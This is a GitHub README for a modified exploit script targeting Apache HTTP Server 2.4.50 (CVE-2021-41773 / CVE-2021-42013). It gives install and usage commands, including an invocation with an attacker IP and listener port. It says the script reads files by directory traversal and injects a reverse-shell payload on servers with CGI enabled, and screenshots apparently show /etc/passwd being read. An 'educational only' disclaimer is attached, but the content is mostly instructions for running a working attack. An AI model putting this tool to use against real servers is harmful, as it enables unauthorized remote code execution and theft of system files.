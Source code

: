 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation:

### Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
```
### Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
```
### install The Requirements:
   ```bash
   pip3 install requests~=2.27.1 termcolor~=1.1.0
   ```
### or:
```bash
   pip3 install -r add_requirements.txt
   ```
### usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target
```

### Example:
```bash
python3 50512.py target.txt -ip 10.0.2.15 -p 4444
```
![apache](png/py.jpg)

### Remote Code Execution:

![apache](png/RunExploit.jpg)

### Remote Code Execution (RCE):

![apache](png/passwd.jpg)
   
# What the Script Does ???
   Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
   If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or       execute code remotely.
   If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning !!!!!:
   For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and             exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 

